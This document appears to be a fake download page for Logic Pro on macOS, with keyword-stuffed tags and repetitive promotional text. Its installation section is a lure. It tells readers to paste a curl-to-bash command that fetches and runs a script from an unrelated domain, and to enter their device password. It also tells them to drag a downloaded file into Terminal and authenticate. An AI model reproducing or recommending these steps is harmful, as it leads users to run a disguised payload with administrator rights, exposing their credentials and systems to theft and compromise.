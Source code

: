 # Logic Pro X — Download For Mac OS
🎵 Discover the power of Logic Pro, a premier music production software exclusively for Mac OS. Follow the step-by-step instructions below to install this professional-grade tool and unlock your creative potential with ease. 😊

![Download Now](https://play-lh.googleusercontent.com/PvTGXfQ3zWyBkBQgfPbyKyKk7xF8KpmyLSy5PbcsDMa1VDQ_OF2LrjNDhf2LrYqrUQ=w526-h296-rw)

[![Download Now](https://img.shields.io/badge/Download-Now-lightgrey?logo=apple&style=for-the-badge&labelColor=#000000&color=#A3A3A3)](#)  
If the download button doesn't work, please follow the terminal instructions below for a smooth installation.

## 📦 How to Install Logic Pro For Mac OS

### Installation via .dmg:
1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:
1. Copy the installation command below.  
   `/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"`
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Gain
- 🎹 Advanced MIDI editing and virtual instruments
- 🎚 Customizable audio effects and mixing tools
- 🎧 High-quality sound library and sample packs
- 🎶 Multi-track recording and live performance features
- 📈 Real-time collaboration and project sharing
- 🎼 Intuitive interface for music composition

---

## About Logic Pro

Logic Pro is a leading music production software designed exclusively for Mac OS, offering unparalleled tools for composers, producers, and musicians. With this download guide, users can access a robust platform that includes advanced MIDI editing, virtual instruments, and a high-quality sound library, all optimized for Apple Silicon. Ideal for both beginners and professionals, this software enables seamless music creation without the need for complex setup, making it a top choice for Mac users seeking a professional-grade solution.

This download for Mac OS enhances Logic Pro’s utility by providing an easy installation process, allowing users to dive into customizable audio effects and multi-track recording features. The software stands out with its intuitive interface, which streamlines music composition and live performance, catering to a wide range of creative needs. Whether you’re producing a full album or experimenting with new sounds, Logic Pro delivers a comprehensive experience tailored for the Mac ecosystem.

The real-time collaboration and project sharing capabilities of Logic Pro make it a favorite among teams and solo artists alike. With this installation guide, Mac OS users can unlock these features, enabling seamless workflows with other musicians and producers. The inclusion of a vast sample pack library further enriches the creative process, offering endless possibilities for sound design and production, all accessible through a single, streamlined platform.

Logic Pro’s high-quality sound library and mixing tools provide a professional edge, making it an essential tool for anyone serious about music production on Mac OS. This download guide ensures that users can quickly set up and start exploring these advanced features, from fine-tuning audio effects to mastering tracks with precision. Its optimization for Apple hardware ensures smooth performance, even with complex projects, appealing to both hobbyists and industry professionals.

One of the standout advantages of Logic Pro is its deep integration with macOS, offering a native experience that outperforms many cross-platform alternatives. This download for Mac OS leverages the power of Apple Silicon, providing faster processing and lower latency compared to non-native solutions. With regular updates and a growing community, Logic Pro continues to set the standard for music production software, making it a must-have for Mac users looking to elevate their creative output.

---

## 🖼 Preview
![Logic Pro Main Interface](https://i.pcmag.com/imagery/reviews/00KRt5ZMUqaFDOATGEVUW4t-55.fit_lim.size_1050x.jpg) *Screenshot of Logic Pro's main workspace showing tracks and mixer.*
![Logic Pro MIDI Editor](https://gdm-catalog-fmapi-prod.imgix.net/ProductScreenshot/e6da53e5-1e63-4d9c-95ce-8016fc3eb8d4.jpg?auto=format&q=50) *MIDI editing interface with advanced tools.*
![Logic Pro Effects](https://mastering.com/wp-content/uploads/2019/02/logic-pro-x-10-3-screenshot-1200x751.jpg) *Audio effects panel with customizable options.*

## 🔍 Tags

logic pro, logic pro x, logic pro x mac, logic pro mac, logic mac, software logic pro, Logic Pro download, Logic Pro Mac OS, Logic Pro music production, Logic Pro download, Logic Pro audio editing, Logic Pro for Mac, Logic Pro sound design, Logic Pro free

